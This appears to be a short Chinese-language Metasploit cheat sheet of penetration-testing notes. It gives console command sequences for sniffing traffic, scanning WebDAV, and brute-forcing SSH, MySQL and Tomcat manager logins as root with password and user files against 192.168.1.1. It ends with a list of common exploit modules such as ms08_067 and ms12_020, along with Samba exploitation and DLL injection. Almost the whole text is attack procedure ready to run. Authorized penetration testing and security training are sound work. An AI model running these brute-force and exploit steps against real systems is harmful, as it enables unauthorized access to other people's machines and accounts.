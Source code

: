 ### 嗅探抓包

use auxiliary/sniffer/psnuffle
run

### webdav

use auxiliary/scanner/http/webdav_scanner
show options
set rhosts 192.168.1.1
set threads 50
run

### ssh口令枚举

use auxiliary/scanner/ssh/ssh_login
show options
set rhost 192.168.1.1
set username root
set pass_file /root/pass.txt
set threads 50
run

### mysql口令枚举

search mysql
use auxiliary/scanner/mysql/mysql_login
show options
set rhost 192.168.1.1
set username root
set pass_file /root/pass.txt
set threads 50
run

### tomcat口令枚举

search tomcat
use auxiliary/scanner/http/tomcat_mgr_login
set rhosts 192.168.1.1
set pass_file /root/pass.txt
set user_file /root/user.txt
exploit


## exploit

### 常见漏洞

ms10_002
ms10_018
ms12_020
ms10_046
ms08_067
ms12_004
linux samba漏洞利用
dll注入攻击
